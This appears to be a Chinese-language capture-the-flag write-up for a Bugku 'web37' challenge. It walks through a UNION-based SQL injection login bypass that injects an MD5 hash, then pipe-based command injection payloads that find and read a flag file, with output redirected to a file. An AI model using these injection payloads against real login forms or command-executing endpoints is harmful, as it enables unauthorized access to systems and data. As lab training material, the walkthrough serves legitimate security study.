 # web37

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661787751-4483045190622.png)

题目描述
> union，命令执行

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661803530-5482046193126.png)

进入题目之后是一个post表单
估计是sql注入
使用**单引号`'`**
来尝试看看有没有注入点
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661818586-4709116204958.png)
返回有一串疑似base64编码的东西
解码一下
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661839746-4886017205567.png)
得到一串源码
这是要要求查询结果不能为空
而且还需要回显的password等于passwrod的md5值
根据题目描述的提示

> **union**

使用联合查询来写入password的值
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661855668-5076522232522.png)
所以构造payload1

```sql
username=-1' union select 1,'25d55ad283aa400af464c76d713c07ad'%23&password=12345678
```
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661889423-5381723214735.png)

登录成功
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661905205-1513624204033.png)
进入到这里
再通过题目描述的提示

> 命令执行

来查看flag
payload2
```shell
find / -name flag
```
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661924186-54126200284.png)

结果没有任何回显
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661936878-5092026212513.png)

emmm
输入一个ls
![img](D:\ebook\markdown\image/bugku/5923732219849.png)

发现回显了它后台执行的语句
`sh -c ps -aux | grep ls`

重点是这个`grep`
`grep`是可以使用管道符把执行结果作为参数传给下一个命令
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661970080-5706136205578.png)

那payload3
```shell
1324|find / -name flag
```
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618661986510-4962629217552.png)

还是无回显
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662008159-3740930218847.png)
这样可以试试传入文件中进行查看
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662029294-4191935220026.png)

payload4
```shell
1|find / -name flag > flag
```
然后查看
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662042790-1921140221857.png)

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662065784-5714740214902.png)

查看到了有两个地方有flag
不知道哪个是真的
那就每个都试试看
payload5
```shell
1|cat /var/www/html/flag > flag
```
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662079085-3919942211669.png)
啥都没有
那就是根目录下的那一个了

payload6
```shell
1|cat /flag > flag
```
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662094837-3156944202000.png)
得到flag